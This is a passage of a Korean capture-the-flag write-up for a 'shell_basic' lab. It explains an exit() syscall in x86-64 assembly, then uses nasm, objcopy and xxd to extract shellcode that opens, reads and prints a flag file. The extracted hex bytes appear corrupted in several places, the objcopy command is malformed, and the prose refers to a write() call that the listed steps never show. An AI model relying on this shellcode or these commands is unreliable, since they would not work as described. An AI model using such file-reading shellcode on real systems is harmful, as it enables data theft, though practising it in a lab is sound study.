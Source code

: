 <br>

</br>

1. `xor rdi, rdi`
   
   : rdi를 0으로 설정한다.

2. `mov rax, 0x3c`

   : rax에 0x3c 를 저장하여 exit() 시스템 콜 번호를 설정한다,

3. `syscall`

   : exit() 시스템 콜을 호출하여 프로그램을 종료한다.

<br>

</br>

즉, 이 부분들은 write() 시스템 콜을 호출하여 표준 출력으로 버퍼 내용을 출력하고, 프로그램을 종료하는 exit() 시스템 콜을 호출하는 과정이다. 
<br>

</br>
<br>

</br>

이제 이를 쉘 코드로 추출하기 위해, 컴파일 / 링크를 하고 추출해보려고 한다. 

![image](https://github.com/user-attachments/assets/441c0ac0-4b4e-4f86-8e8a-73c0c1cfa174)

`nasm -f elf64 shell_basic.asm ` 명령어를 통해, 컴파일 및 링크를 하여, object 파일을 만든다.

<br>

</br>

![image](https://github.com/user-attachments/assets/54003647-1297-4812-a44a-3a27b6cbf926)
![image](https://github.com/user-attachments/assets/af6562db-775d-4c61-8c29-1cbd1487b5f2)

`objcopy --dump-section .text-shell_basic.bin shell_basic.o` 명령어를 통해, 바이너리로 변환한다.

또한, `xxd shell_basic.bin` 명령어를 통해, 바이너리를 헥사코드로 변환한다.
출력된 hex 값들을 잘 정리해주어 쉘 코드를 추출해보면,
<br>

</br>

```
\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\xb0\x3d\x12\xb8\x02\x00\x00\x0f\x05\x48\xc7\x48\x31\xec\x30\x48\xb9\xe8\xba\x30\x00\x00\x00\xb8\x00\x00\x00\x0f\x05\xbf\x01\x00\x00\x00\xb8\x01\x00\x00\x0f\x05\x48\x31\xff\xb8\x3c\x00\x00\x00\x00\x0f\x05
```
이와 같다. 

<br>
